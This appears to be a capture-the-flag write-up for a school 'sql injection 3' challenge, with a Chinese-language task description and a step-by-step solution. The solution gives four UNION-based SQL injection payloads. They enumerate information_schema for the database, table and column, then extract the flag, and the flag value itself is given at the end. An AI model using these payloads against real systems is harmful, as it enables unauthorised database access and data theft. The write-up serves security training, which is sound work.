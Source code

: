 # sql injection 3
## Description
> 哇 一個網站藏 3 個 flag ，是怎辦到的阿
>
> 請用 https 連線
>
> 請不要拿工具掃他
>
> 因學校會做連線檢查 改成用 _POST 解法一樣
>
> cdx 上仍然是 _GET
>
> https://me.zongyuan.nctu.me/sqlinject/sql.php
>
> cdx : http://10.101.1.30/sqlinject/sql.php
---
## Writeup
Use `’union select schema_name,1 from information_schema.schemata limit 1,1 #’` to find which database the flag is at.

![database](database.jpg)

Next use `’union select table_name,1 from information_schema.tables where table_schema like ‘flag_is_here’#’` to find which table the flag is at.

![table](table.jpg)

Then use `’union select column_name,1 from information_schema.columns where table_name like ‘secret’#’` to find which column the flag is at.

![column](column.jpg)

After we found all the information above, we can use `’union select flag,1 from flag_is_here.secret#’` to get the flag.

![flag](result3.jpg)

flag : balqs{schema_power}